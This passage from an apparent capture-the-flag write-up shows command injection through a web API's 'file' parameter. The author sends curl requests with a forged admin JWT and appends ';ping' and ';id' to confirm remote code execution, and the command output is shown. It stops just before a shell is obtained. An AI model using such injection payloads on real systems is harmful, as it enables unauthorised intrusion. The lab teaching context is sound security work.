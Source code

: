 

The result include the `ping` output after the `git log` output! I can
make it print prettier using `jq -r .`, which will take JSON input (a
plain string is valid JSON) and remove the formatting to make it raw:



    oxdf@hacky$ curl -s 'http://10.10.11.120/api/logs?file=;ping+-c+1+10.10.14.6' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r .
    80bf34c fixed typos 🎉
    0c75212 now we can view logs from server 😃
    ab3e953 Added the codes
    PING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.
    64 bytes from 10.10.14.6: icmp_seq=1 ttl=63 time=104 ms

    --- 10.10.14.6 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 103.897/103.897/103.897/0.000 ms



The results of the ping come back showing it worked! I can also see the
connection at `tcpdump`:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    12:04:53.974591 IP 10.10.11.120 > 10.10.14.6: ICMP echo request, id 1, seq 1, length 64
    12:04:53.974607 IP 10.10.14.6 > 10.10.11.120: ICMP echo reply, id 1, seq 1, length 64



#### POC - id

Given that the output comes back (the command injection is not blind), I
can test other commands as well, like `id`:



    oxdf@hacky$ curl -s 'http://10.10.11.120/api/logs?file=;id' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r .
    80bf34c fixed typos 🎉
    0c75212 now we can view logs from server 😃
    ab3e953 Added the codes
    uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)



I could write a small Python script here to keep enumerating via this
RCE, but I'll go for a shell first.

#### Shell

I'll continue to use `curl`, but rather than putting the GET parameters
right into the url, I'll use `-G` to force a GET request, and
`--data-urlencode` to have `curl` encode the data for me. Now I don't
have to worry about special characters, etc. I'll start with a command I
know works to make sure my syntax is correct:
